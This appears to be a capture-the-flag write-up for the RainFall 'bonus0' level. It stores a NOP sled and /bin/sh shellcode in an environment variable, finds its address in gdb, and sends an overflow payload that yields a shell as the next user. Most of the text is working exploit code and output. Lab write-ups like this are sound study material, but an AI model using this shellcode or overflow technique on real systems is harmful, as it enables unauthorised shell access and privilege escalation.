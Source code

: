 offset calculated is 9

We will use our env as a buffer we can control during execution  
The env variable will contain our shellcode

```bash
export EXPLOIT=$(python -c 'print "\x90" * 50 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')
```

Lets examine our env to find out its address

```bash
(gdb) x/200s environ
0xbffff8c6:	 "EXPLOIT=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\311\367\341Qh//shh/bin\211\343\260\v̀"


```

Lets look at the address

```bash
(gdb) x/50x 0xbffff8c6
0xbffff8c6:	0x45	0x58	0x50	0x4c	0x4f	0x49	0x54	0x3d
0xbffff8ce:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff8d6:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff8de:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff8e6:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff8ee:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xbffff8f6:	0x90	0x90

```

The start of our shellcode is `\x90\x90\90`  
Here we can see those bytes at `0xbffff8ce` == `\xce\xf8\xff\xbf`
Why ? Because we need to skip 8 chars ("EXPLOIT="), so we skip the first 8 bytes

The offset in memory in gdb may be a bit different, that is why we put a lot of NOP instruction (`\x90`)
Lets jump further to jump into the `\x90` : `\xe4\xf8\xff\xbf`

Now in the program we can jump to our env variable with our payload

## Payload

FONCTIONNE

```bash
(python -c 'print ("A" * 20)'; python -c 'print ("A" * 9 + "\xe4\xf8\xff\xbf" + "A" * 7)'; cat)  | ./bonus0
```

```bash
bonus0@RainFall:~$ (python -c 'print ("A" * 20)'; python -c 'print ("A" * 9 + "\xe4\xf8\xff\xbf" + "A" * 7)'; cat)  | ./bonus0
 -
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA����AAAAAAA��� AAAAAAAAA����AAAAAAA���
whoami
bonus1
```
